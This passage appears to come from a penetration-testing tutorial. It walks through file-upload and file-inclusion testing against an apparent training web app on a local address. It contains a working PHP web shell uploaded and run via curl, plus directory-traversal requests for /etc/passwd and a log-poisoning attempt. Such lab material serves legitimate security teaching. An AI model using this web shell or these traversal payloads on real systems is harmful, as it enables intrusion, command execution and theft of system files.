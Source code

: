 **💡 Session Security:**
- Token randomness
- Proper timeout handling
- Secure transmission
- Anti-CSRF protections

**💡 Business Risk Assessment:**
- Unauthorized access impact
- Data exposure potential
- Privilege escalation risks
- Compliance implications

### Phase 7: File Upload and Inclusion Testing

**File Upload Vulnerabilities:**

```bash
# Create malicious PHP file
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Upload via curl
curl -X POST "http://192.168.0.169:8080/vulnerabilities/upload/" \
  -F "uploaded=@shell.php" \
  -F "Upload=Upload"

# Test execution
curl "http://192.168.0.169:8080/hackable/uploads/shell.php?cmd=whoami"
```

**Local File Inclusion Testing:**
```bash
# Directory traversal
curl "http://192.168.0.169:8081/vulnerabilities/fi/?page=../../../etc/passwd"

# Log poisoning attempt
curl "http://192.168.0.169:8081/vulnerabilities/fi/?page=../../../var/log/apache2/access.log"
```

**💡 File Security Testing:**
- Upload restriction bypass
- File type validation
- Directory traversal
- Remote code execution

**💡 Critical Impact Scenarios:**
- Web shell deployment
- System file access
- Configuration disclosure
- Complete system compromise

**💡 Exploitation Methodology:**
- File type enumeration
- Extension bypass techniques
- Content-type manipulation
- Path traversal sequences
